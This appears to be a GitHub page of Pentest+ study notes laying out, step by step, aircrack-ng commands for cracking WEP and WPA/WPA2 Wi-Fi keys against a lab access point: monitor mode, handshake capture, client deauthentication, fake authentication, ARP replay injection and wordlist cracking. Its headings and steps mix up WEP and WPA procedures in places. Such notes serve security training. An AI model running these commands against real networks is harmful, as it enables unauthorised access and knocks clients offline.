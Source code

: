 ## Cracking WPA/WPA2 PSK

**The steps to crack WPA/WPA2 and WEP are the same. The only difference is using of a wordlist in the former**
````
aircrack-ng -w /path/to/wordlist.txt -b D8:0D:17:81:3F:CC replay_arp-0709-181038.cap
````

## Perform the following steps prior to step 1, if you're wireless card is giving you issues.

* Stop network manager
````
service network-manager stop
````

* When putting a card into monitor mode, it will automatically check for interfering processes. It can also be done manually by running the following command:
````
airmon-ng check
````

* Kill interferring processes
````
airmon-ng check kill **OR** airmon-ng check kill-all
````

* If started already...disable Monitor Mode
````
airmon-ng stop wlan0mo
````

* Restart Network Manager(s)
````
service network-manager start
````

**1) List All Available Wireless Interace Cards**

* You can do this with two commands: iwconfig or airmon-ng

![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/list_interfaces.png)

**2) Enable monitor mode on the interace found in step 1**

* Identify the channel of the target AP, 
````
airmon-ng start wlan0
sudo airodump-ng wlan0mon <- Identify AP channel here
sudo airodump-ng stop wlan0mon
sudo airmon-ng start wlan0 3
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/monitor_mode_channel.png.png)

**3) Identify the channel your WEP network is operating on**

* execute iwconfig or airmon-ng to get your wireless interface
* use either BSSID or ESSID.
* The channel number will be listed under the "CH" column.
````
airodump-ng wlan0mon
````
![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/identify_channel.png)

* Take not of the the MAC, channel and network name of the target AP.
* Test wireless device packet injection.
* If you receive "Injection is working! proceed, else, ensure you're using a compatible wireless card.

**4) Test Packet Injection**
````
aireplay-ng -9 -e <network name> -a <target MAC> <interface>
````

**5) Capture hnadshake from the AP**
* If you cannot capture a handshake, force a client to reconnect using aireplay-ng -deauth
* When a handshake is captured, look in the upper right corner for "WPA handshake"...
````
airodump-ng -c 3 --bssid D8:0D:17:81:3F:CC -w target_iphone wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/handshake.png)


![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/capture_iv.png)

**6) Initiate Fake Authentication**
* Do this step concurrently with the step 5 to capture all the data you have replayed.
````
sudo aireplay-ng -1 0 -e lab -a D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/fake_authentication.png)

**7) Start aireplay in ARP request replay mode**
* When the program identifies an ARP request, it will immediately strat to inject it.
````
aireplay-ng -3 -b D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/injection.png)


**8) Crack the WEP key**
````
aircrack-ng -w /path/to/some/wordlist.txt -b D8:0D:17:81:3F:CC replay_arp-0709-181038.cap
````
